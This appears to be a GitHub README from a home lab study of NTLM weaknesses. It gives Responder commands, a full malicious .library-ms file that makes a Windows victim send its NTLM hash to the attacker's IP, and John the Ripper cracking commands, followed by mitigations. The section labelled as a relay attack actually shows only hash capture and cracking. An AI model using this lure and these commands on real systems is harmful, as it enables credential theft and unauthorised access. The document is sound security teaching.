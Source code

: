 # NTLM Security Research

## Overview

This repository contains a comprehensive analysis of **NTLM authentication vulnerabilities** with a focus on **NTLM relay attacks** and methods to capture and crack NTLM hashes. The tests were performed in a controlled environment using **Kali Linux** as the attacker machine and **Windows 10** in a **workgroup setup** as the target machine. This project aims to demonstrate how attackers exploit NTLM authentication flaws and how defenders can mitigate these risks.

### Objectives:
- Understand and analyze the NTLM authentication process.
- Demonstrate NTLM relay attacks and their potential impact.
- Capture NTLM hashes and explore methods for cracking them.
- Provide mitigation strategies to enhance security against NTLM-based vulnerabilities.

## Table of Contents

1. [Introduction](#introduction)
2. [Lab Setup](#lab-setup)
3. [NTLM Authentication Overview](#ntlm-authentication-overview)
4. [NTLM Relay Attack](#ntlm-relay-attack)
5. [Hash Capture and Cracking](#hash-capture-and-cracking)
6. [Mitigation Strategies](#mitigation-strategies)
7. [Conclusion](#conclusion)
8. [References](#references)

## Introduction

**NTLM (NT LAN Manager)** is a set of Microsoft security protocols used for authentication in Windows environments. While still widely used, NTLM contains several vulnerabilities that can be exploited by attackers. The goal of this research is to provide a detailed understanding of these vulnerabilities, particularly focusing on **NTLM relay attacks**, **hash capturing**, and **cracking techniques**.

This repository presents the results of practical tests conducted in a **workgroup environment** (rather than a domain-based setup), highlighting real-world security risks.

## Lab Setup

The testing environment consists of two virtual machines:
- **Kali Linux** (attacker machine)
- **Windows 10** (target machine, in a workgroup setup)

### Kali Linux Configuration:
- **IP Address**: 192.168.56.101
- **Tools**: Responder, Metasploit, John the Ripper, Hashcat

### Windows 10 Configuration:
- **IP Address**: 192.168.56.102
- **Workgroup Setup**: No Active Directory
- **NTLM Authentication**: Enabled

Both machines are connected via a **Host-Only** network to simulate an isolated, controlled testing environment.

## NTLM Authentication Overview

NTLM is an authentication protocol that uses a **challenge-response** mechanism to authenticate users. Despite being a legacy protocol, it is still in use today, often in environments where older Windows systems or configurations are required.

### NTLM Authentication Process:
1. **Client sends a request** to the server for access.
2. **Server sends a challenge** back to the client.
3. **Client sends a response** using a hashed value of the user's password.
4. **Server validates** the response and grants access if correct.

### NTLM Vulnerabilities:
- **Weak Hashing**: NTLM hashes can be easily cracked if intercepted.
- **NTLM Relay Attacks**: Attackers can intercept and relay NTLM authentication messages to gain unauthorized access.

### Types of NTLM Authentication:
- **LM Hashes**: Deprecated and very insecure.
- **NTLMv1**: Older version with known vulnerabilities.
- **NTLMv2**: More secure but still vulnerable to relay attacks if not properly configured.

## NTLM Relay Attack

### What is an NTLM Relay Attack?

An NTLM relay attack involves an attacker intercepting and relaying NTLM authentication messages between a client and a server. This allows the attacker to authenticate as the victim on other machines without needing to know their password.

### Steps for Performing an NTLM Relay Attack:

1. **Configure Responder on Kali Linux**:
   Responder listens for NTLM authentication requests on the network and can capture them.
   ```bash
   sudo responder -I eth0
   ```

2. **Create Malicious `.library-ms` File**:
   This file can be used to trick the victim into sending NTLM authentication requests.
   ```xml
   <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
     <name>SharedDocs</name>
     <version>6</version>
     <isLibraryPinned>true</isLibraryPinned>
     <iconReference>imageres.dll,-1003</iconReference>
     <templateInfo>
       <folderType>Documents</folderType>
     </templateInfo>
     <searchConnectorDescriptionList>
       <searchConnectorDescription>
         <simpleLocation>
           <url>\\192.168.56.101\anything</url>
         </simpleLocation>
       </searchConnectorDescription>
     </searchConnectorDescriptionList>
   </libraryDescription>
   ```

3. **Capture NTLM Hashes**:
   When the victim interacts with the malicious file, Responder captures their NTLM hash.

4. **Crack NTLM Hash**:
   Use **John the Ripper** or **Hashcat** to crack the captured hash.
   ```bash
   john --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
   ```

---

## Hash Capture and Cracking

In this section, the process of capturing NTLM hashes and cracking them using tools like **John the Ripper** and **Hashcat** is demonstrated.

### Steps for Capturing NTLM Hashes:
1. **Run Responder**:
   ```bash
   sudo responder -I eth0
   ```

2. **Crack the Captured Hashes**:
   - Hashes are saved in the `/usr/share/responder/logs` directory.
   - Use **John the Ripper** for cracking:
   ```bash
   john --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
   ```

---

## Mitigation Strategies

### How to Protect Against NTLM Relay Attacks:
1. **Disable NTLM**: Use **Kerberos** authentication instead of NTLM whenever possible.
   - Configure **Group Policies** to disable NTLM or enforce **NTLMv2**.

2. **Enforce SMB Signing**: Require SMB signing to protect against tampering with SMB traffic.

3. **Use Network Segmentation**: Isolate critical systems to reduce the attack surface.

4. **Deploy Multi-Factor Authentication (MFA)**: Add an additional layer of security to authentication processes.

5. **Update Systems Regularly**: Ensure that Windows systems are patched with the latest security updates to protect against known vulnerabilities.

---

## Conclusion

This repository provides a detailed demonstration of **NTLM relay attacks**, capturing **NTLM hashes**, and cracking them using popular tools. By understanding these vulnerabilities, organizations can take appropriate steps to mitigate the risks associated with NTLM authentication.

## References

- [NTLM Relay Attack Overview](https://www.rapid7.com/db/vulnerabilities/)
- [Responder GitHub Repository](https://github.com/SpiderLabs/Responder)
- [John the Ripper Documentation](https://www.openwall.com/john/)
- [Microsoft Security Documentation](https://docs.microsoft.com/en-us/security-updates)